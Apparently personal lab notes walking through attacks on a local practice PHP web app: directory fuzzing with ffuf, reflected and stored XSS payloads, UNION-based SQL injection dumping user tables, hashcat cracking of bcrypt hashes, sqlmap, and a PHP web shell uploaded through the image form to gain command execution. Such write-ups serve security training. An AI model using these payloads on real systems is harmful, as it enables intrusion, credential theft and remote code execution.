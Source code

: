 First of all we can reset all the dbs, if we have problems, using `localhost/capstone/init.php`


# Step 1: enumeration
First of all we need to enumerate all possible directories and files in the web app:
```bash
ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php -recursion
```
- we know that the app is in `php`


At this point we can test if the app allows to register with weak passwords, in the sign up form:
```
hello

hello
hello
```
- ![[Pasted image 20250107163543.png]]
- weak passwords allowed

# XSS
Now we login with our new user and we can see that the login message in the url is reflected in the page:
- ![[Pasted image 20250107163642.png]]


So we try to inject a `<h1>` hrml element:
```url
?message=<h1>test message</h1>
```
- ![[Pasted image 20250107163745.png]]

So we can test for XSS
```html
message=<script>prompt(1)</script>
```
- ![[Pasted image 20250107163826.png]]


<mark style="background: #FF5582A6;">XXS present!</mark>

## Stored xss

We can visit the product and we add a rating:
```html
<script>prompt(1)</script>
```

We send it and we obtain a stored XSS:
- ![[Pasted image 20250107164158.png]]
- ![[Pasted image 20250107164207.png]]


## SQLinjection
We can try to see if there is a SQLi on the `GET` request of a product (when we visit it).

So we put in the url 
```
?coffee=1'or 1=1#
```
- but it doesn't work

So we try with:
```html
?coffee=1' or 1=1--
```
- ![[Pasted image 20250107164543.png]]
- We obtain a result 

<mark style="background: #FF5582A6;">It is vulnerable to SQlinjection</mark>

So we try to dump the db and we start to enumerate the columns and with this payload we get a result:
```html
?coffee=1' UNION select null,null,null,null,null,null,null--
```
- ![[Pasted image 20250107164726.png]]


Trying harder we get that the second and third column are strings:
``` sql
?coffee=1' UNION select null,'a','a',null,null,null,null--
```

So get info from the db:
``` sql
?coffee=1' UNION select null,TABLE_NAME,'a',null,null,null,null from INFORMATION_SCHEMA.TABLES--
```
- ![[Pasted image 20250107165002.png]]


So we extract usernames from users:
```sql
?coffee=1' UNION select null,COLUMN_NAME,'a',null,null,null,null from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME = 'users' --
```
- we get `username` and `password`


Now we extract them:
```sql
?coffee=1' UNION select null,username,password,null,null,null,null from users --
```
- ![[Pasted image 20250107165350.png]]

Let's crack them. We put them into a `.txt` file and run hashcat:
```bash
hashcat HASH_VALUE
```

It gives us info about it, it is bcrypt hash:
```bash
hashcat -m 3200 hashes.txt /usr/share/seclists/Passwords/xato-net-10-million-passwords-top-10000.txt --show
```
- ![[Pasted image 20250107170008.png]]


### SQLMAP
we can also use sqlmap. We put the request in a `.txt` file:
- ![[Pasted image 20250107165826.png]]

Then we run 
```bash
sqlmap -r request.txt -T users --dump 
```
- ![[Pasted image 20250107165934.png]]

A lot of information.


# Admin login (RCE)
We cracked the password so we enter as jeremy.

At this point we visit `localhost/capstone/admin/admin.php`

In this page we can add a new coffee and upload an image.


So we upload an image and in burp we analyze the request.

We try to perform a magic byte injection:
```php
<?php system($_GET['cmd']); ?>
```
- ![[Pasted image 20250107170248.png]]
- we changed also the extension in `.php`
- ![[Pasted image 20250107170332.png]]


So we visit the file:
- ![[Pasted image 20250107170354.png]]
- it is in `assets/11.png`


So we visit 
```html
localhost/capstone/assets/11.php?cmd=whoami
```
- ![[Pasted image 20250107170603.png]]


<mark style="background: #FF5582A6;">We have RCE</mark>

